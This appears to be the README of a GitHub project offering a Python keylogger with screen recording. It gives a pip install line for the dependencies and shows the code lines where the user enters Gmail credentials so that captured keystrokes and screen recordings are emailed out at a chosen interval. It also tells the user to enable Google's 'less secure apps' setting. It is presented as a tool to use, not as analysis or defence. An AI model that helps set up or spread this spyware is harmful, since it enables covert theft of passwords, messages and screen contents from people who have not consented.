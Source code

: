 # Keylogger with screen recorder
A keylogger that sends logs on email and records screen.

# Installation

This script requires numpy, pyautogui, opencv, requests, pynput and pypiwin32.

Install packages from console

```bash
pip install numpy pyautogui opencv-python requests pynput pypiwin32
```

# Instructions

- This script requires continuous Internet connection

- Change 183 line in Python file to set your email and password **(ONLY GMAIL MAILBOX)**
```python
183. e = SendEmail('YOUR_EMAIL', 'YOUR_PASSWORD', TIME)
```
**Remember to set the frequency of sending emails on your mailbox by changing the TIME value**

The TIME value is expressed in seconds

- **YOU NEED TO ALLOW LESS SECURE APPS ON YOUR GOOGLE ACCOUNT BEFORE USING THIS SCRIPT. YOU CAN DO IT HERE: https://myaccount.google.com/lesssecureapps**


> Example

```python
171. gmail = 'YOUR_GMAIL'
172. pass_for_gmail = 'YOUR_PASSWORD'
```

- Run script
